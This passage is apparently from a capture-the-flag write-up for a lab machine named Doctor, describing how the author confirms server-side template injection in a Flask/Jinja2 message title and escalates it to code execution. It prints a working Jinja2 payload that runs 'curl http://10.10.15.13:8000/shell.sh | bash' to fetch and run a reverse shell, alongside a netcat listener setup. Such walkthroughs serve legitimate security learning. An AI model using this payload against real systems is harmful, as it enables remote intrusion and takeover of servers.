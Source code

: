![](/assets/images/doctor/wappalyzer.png)

We start our test an put "\{\{7*7\}\}" as the title of a message.

![](/assets/images/doctor/sttitest.png)

And checking the xml.

![](/assets/images/doctor/sttixml.png)

Yes, we got it executed, now according to the guide the template engine should be Tornado, since Jinja2 would have thrown an error, but if we test with \{\{foobar\}\} it shows nothing, and in Tornado this should give an error, so we can't say for sure which one of these engines are being used,but let's remember the output of Wappalyzer, it not only said Python but also Flask, Jinja2 runs under Flask, so we can guess that we are actually dealing with Jinja2. Searching for information we get to this [blog](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/) where we see a poc to get code execution on Jinja2, sending a reverse shell code through http is annoying since encoding and decoding usually mess up everything, so what I like to do is curl a reverse shell code and pipe it to bash, so first we create a file named "shell.sh" with our reverse shell code inside, start a python http server, `python3 -m http.server`, and our nc listener, then we create a message with the title `\{\{request.application.__globals__.__builtins__.__import__('os').popen('curl http://10.10.15.13:8000/shell.sh | bash').read()\}\}` (erase the "\\" at the start and the end, jekyll was having some problems with it), and when we open http://doctors.htb/archive we get a request on our http server and a shell on the machine.
